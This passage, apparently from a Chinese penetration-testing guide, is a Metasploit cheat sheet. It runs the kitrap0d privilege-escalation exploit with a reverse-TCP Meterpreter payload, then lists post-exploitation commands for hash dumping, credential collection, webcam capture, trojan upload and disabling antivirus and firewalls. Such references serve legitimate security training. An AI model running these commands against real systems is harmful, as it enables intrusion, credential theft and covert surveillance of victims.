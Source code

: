 +   `msf > use exploit/windows/local/`：列出所有 Windows 漏洞。

+   `msf > use exploit/windows/local/ms10_015_kitrap0d`：我们从列表中选择了一个漏洞，具体如下：

```
msf exploit(ms10_015_kitrap0d) > show options msf exploit(ms10_015_kitrap0d) > set SESSION 1 msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.100 msf exploit(ms10_015_kitrap0d) > set LPORT 4445 msf exploit(ms10_015_kitrap0d) > exploit meterpreter > getuid Server username: NT AUTHORITY\SYSTEM - Hooray
```

+   `meterpreter > search`：提供在目标主机上查找特定文件的方法。例如，`search -f passwords*.txt`。

+   `meterpreter > cat [文件名路径]`：当提供文件路径作为参数时，显示文件内容。

+   `meterpreter > download [文件名路径]`：从远程主机下载文件。注意，提供 Windows 路径时要使用双斜杠。例如，`download C:\\passwords.txt`。

+   `meterpreter > upload [local file name] [remote path]`：例如，`upload evil_trojan.exe c:\\windows\\system32`。

+   `meterpreter > execute [command]`：在目标系统上运行命令。

+   `meterpreter > shell`：在目标系统上执行 Shell（终端或 DOS）。

+   `meterpreter > run post/windows/gather/hashdump`：一个后期模块，用于转储 SAM 数据库的内容。

+   `meterpreter > ipconfig`：显示远程机器上的网络接口和地址。

+   `meterpreter > webcam_list`：显示目标主机上当前可用的摄像头列表。

+   `meterpreter > webcam_snap`：从目标系统连接的网络摄像头抓取一张图片，并将其保存为 JPEG 图像到磁盘。默认情况下，保存位置是本地当前工作目录，文件名随机生成。例如，`webcam_snap -i 1 -v false`。

+   `meterpreter > python_import [local python file]`：导入本地 Python 文件并在受害者的机器上执行。例如，`meterpreter > python_import -f /root/readAutoLogonREG.py`。

+   `meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24`

+   `meterpreter > run post/windows/gather/checkvm`：检查受害主机是否为虚拟机。

+   `meterpreter > run post/windows/gather/credentials/credential_collector`：在被攻陷的主机上收集密码哈希和令牌。

+   `meterpreter > run post/windows/gather/dumplinks`：`dumplinks`模块解析用户最近文档中的`.lnk`文件，这对于进一步的信息收集非常有用。

+   `meterpreter > run post/windows/gather/enum_applications`：枚举在受害主机上安装的应用程序。

+   `meterpreter > run post/windows/gather/enum_logged_on_users`：返回当前和最近登录的用户列表及其 SID。

+   `meterpreter > run post/windows/gather/enum_shares`：返回在受害系统上配置和最近使用的共享列表。

+   `meterpreter > run post/windows/gather/enum_snmp`：枚举目标上的 SNMP 服务配置（如果存在），包括社区字符串。

+   `meterpreter > run post/windows/gather/hashdump`：使用注册表转储受害主机上的本地用户账户。

+   `meterpreter > run post/windows/gather/usb_history`：枚举受害系统上的 USB 驱动器历史记录。

+   `meterpreter > run getcountermeasure`：检查受害者系统的安全配置，并能禁用其他安全措施，如 A/V、防火墙等。

+   `meterpreter > run getgui -e`：如果目标系统的 RDP 被禁用，则启用 RDP。

+   `meterpreter > run gettelnet -e`：如果 Telnet 在受害者系统中被禁用，则启用 Telnet。
